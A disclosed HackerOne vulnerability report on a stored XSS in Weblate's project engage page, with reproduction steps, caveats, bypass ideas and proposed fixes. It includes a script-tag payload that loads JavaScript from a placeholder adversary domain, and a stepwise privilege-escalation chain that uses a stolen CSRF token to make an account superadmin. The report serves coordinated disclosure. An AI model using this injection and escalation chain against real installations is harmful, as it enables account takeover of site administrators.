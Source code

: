 # Stored XSS @ /engage/<project_slug>

## Report Details
- **Report ID**: 472391
- **URL**: https://hackerone.com/reports/472391
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-12-26T22:13:28.975Z
- **Disclosed**: 2019-07-02T12:40:01.189Z

## Reporter
- **Username**: lgian
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: weblate

## Vulnerability Information
## Description
The vulnerability concerns a Stored XSS, while it is currently (to the best of my knowledge) not exploitable due to limitations stated below. I thought that the issue is worth reporting anyway.

## Steps to reproduce
1. Change a project's name (or create one) to the following payload:  
 `<script src="http://<adversery_domain>/payload.js"></script>`, where `<adversary_domain>` could be any domain that you own. For testing purposes you can host the javascript file on localhost.
2. Navigate to `/engage/<project_slug>`, where `<project_slug>` is the project's url slug.
3. Any javascript payload you host will be executed under the origin of weblate.

## Referenced code
The code that is the root cause for the vulnerability is under: `weblate/trans/views/basic.py:show_engage:123`, where `show_engage` is the view called for the `/engage/<project_slug>` url.

### Caveats
1. A project's name is limited to 60 characters, therefore we cannot inject our payload straight into it. A bypass for that is the one referenced in step 1, where we load an external javascript file from a domain we own.
2. By default the application's CSP only allows scripts from certain domains (cdnjs etc.). Although, the default CSP allows `unsafe-inline` when any CDN is enabled.
3. The session cookie is uses the attributes `HttpOnly` and `SameSite=lax`, therefore hijacking the superadmin's session token is impossible (for most browsers).
4. In order to perform the attack, you have to own a user account that can change a project's name, which is true for any project administrator.

#### Possible bypasses
1. A project's name character limit is extended.
2. Since the application supports file uploads and the CSP allows scripts coming from `self` (current domain), one could upload their payload to the Weblate installation. This bypass would require an endpoint that accepts uploading HTML/javascript content and stores it under the `media` uploads. 

### Proof of Concept
In order to get any value of the present XSS, since we cannot steal the superadmin's session token, we can perform any action as the superadmin. That is because we can issue any GET/POST request and read the response, since we operate under the same origin as the hosted application. As mentioned before, in order to perform the following attack, we need a user account that can change a project's name. 

1. Issue a GET request under `admin/weblate_auth/user/` in order to find our user record's ID. 
2. Issue a GET request under `admin/weblate_auth/user/5/change/`, assuming that the ID is 5 for instance.
3. Read the previous' request's response in order to steal the `csrfmiddlewaretoken` that Django injects to protect against such attacks.
4. Issue a POST request using the above information to make our user a superadmin.

The `payload.js` that automatically does the steps 2-4 is attached to the report (except for parsing the response for csrftokenmiddlware, which is trivial using javascript).

## Proposed fixes
1. Escape the project's name using django's `escape` function before output
2. Remove the `unsafe-inline` directive from the CSP when CDNs are enabled.

## Impact

Given a bypass to either the project's name character limit or the CSP, any user that has the ability to change a project's name can make themselves a superuser through CSRF.

## Attachments
- payload.js
